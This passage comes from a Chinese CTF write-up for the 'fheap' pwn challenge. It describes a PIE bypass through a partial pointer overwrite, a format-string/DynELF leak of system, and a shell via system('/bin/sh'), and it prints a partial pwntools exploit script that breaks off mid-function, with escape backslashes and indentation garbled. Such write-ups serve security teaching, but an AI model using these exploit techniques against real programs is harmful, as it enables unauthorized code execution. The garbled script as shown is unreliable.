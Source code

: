 1、绕过PIE，在能劫持函数流之后，首先是泄露出程序的地址以绕过PIE，具体的方法是将free_func指针的最低位覆盖成"x2d"，变成去执行fputs函数，最后变成去打印出free_func的地址，从而得到程序的基地址等。

[![](https://p4.ssl.qhimg.com/t0107caa11279c8c4ee.png)](https://p4.ssl.qhimg.com/t0107caa11279c8c4ee.png)

2、泄露system函数地址，首先有了程序的地址后，可以得到printf函数的plt地址，从而想办法在栈中部署数据，使用格式化字符串打印出我们需要的地址中的内容，使用DynELF模块去泄露地址，具体可以看安全客之前有人写的一篇文章—借助DynELF实现无libc的漏洞利用小结。从而泄露出system函数的地址。

3、执行system("/bin/sh")

最终调用system函数开启shell。

**D、最终exp**

exp最终如下，里面还有部分注释。

```
from pwn import *
from ctypes import *
DEBUG = 1
if DEBUG:
     p = process('./fheap')
else:
     r = remote('172.16.4.93', 13025)
print_plt=0
def create(size,content):
    p.recvuntil("quit")
    p.send("create ")
    p.recvuntil("size:")
    p.send(str(size)+'n')
    p.recvuntil('str:')
    p.send(content.ljust(size,'x00'))
    p.recvuntil('n')[:-1]
def delete(idx):
   p.recvuntil("quit")
   p.send("delete "+'n')
   p.recvuntil('id:')
    p.send(str(idx)+'n')
    p.recvuntil('sure?:')
    p.send('yes '+'n')
def leak(addr):
    delete(0)
    #printf函数格式化字符串打印第九个参数地址中的数据，第九个刚好是输入addr的位置
    data='aa%9$s'+'#'*(0x18-len('aa%9$s'))+p64(print_plt)
    create(0x20,data)
    p.recvuntil("quit")
    p.send("delete ")
    p.recvuntil('id:')
    p.send(str(1)+'n')
    p.recvuntil('sure?:')
    p.send('yes01234'+p64(addr))
    p.recvuntil('aa')
    data=p.recvuntil('####')[:-4]
    data += "x00"
    return data
def pwn():
    global print_plt
     create(4,'aa')
     create(4,'bb')
    create(4,'cc')
     delete(2)
    delete(1)
    delete(0)
    #申请三个堆块,随后删除，从而在fastbin链表中形成三个空的堆块
    #part1 覆盖到fputs函数，绕过PIE
    data='a'*0x10+'b'*0x8+'x2D'+'x00'#第一次覆盖，泄露出函数地址。
```